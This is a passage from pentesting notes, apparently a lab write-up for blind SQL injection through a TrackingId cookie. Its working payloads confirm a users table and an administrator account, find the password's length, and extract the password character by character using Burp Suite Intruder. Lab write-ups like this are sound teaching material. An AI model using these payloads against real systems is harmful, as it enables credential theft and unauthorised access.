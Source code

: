 `Cookie: TrackingId=lacwN6lFLWfaCu61' AND (SELECT 'a' FROM users LIMIT 1)='a;`

Now you know the **users** table exists, if you get a similar response to True above. To check for a username, you would run the following:

`Cookie: TrackingId=lacwN6lFLWfaCu61' AND (SELECT 'a' FROM users WHERE username='administrator')='a;`

This checks if the username is **administrator**, and if this is true, then you will get the same response as you did for True above.&#x20;

Determine size of **password** value:

`Cookie: TrackingId=lacwN6lFLWfaCu61' AND (SELECT 'a' FROM users WHERE username='administrator' AND LENGTH(password)>1)='a`` `**`//(password)=1) also works`**

Determine password string (use with Burp Suite Intruder):

`Cookie: TrackingId=lacwN6lFLWfaCu61' AND (SELECT SUBSTRING(password,1,1) FROM users WHERE username='administrator')='a`

Modified Cookie with Intruder:

`Cookie: TrackingId=lacwN6lFLWfaCu61' AND (SELECT SUBSTRING(password,1,1) FROM users WHERE username='administrator')='§a§;`

{% hint style="info" %}
Use a wordlist of \[A-Za-z0-9] (special characters as well)
{% endhint %}

To find second character:

`Cookie: TrackingId=lacwN6lFLWfaCu61' AND (SELECT SUBSTRING(password,2,1) FROM users WHERE username='administrator')='§a§;`

You'll know when you are hitting the mark when you see a Length difference in Burp Suite, or the same response as the True response:

![](<../.gitbook/assets/image (331) (1) (1) (1) (1).png>)
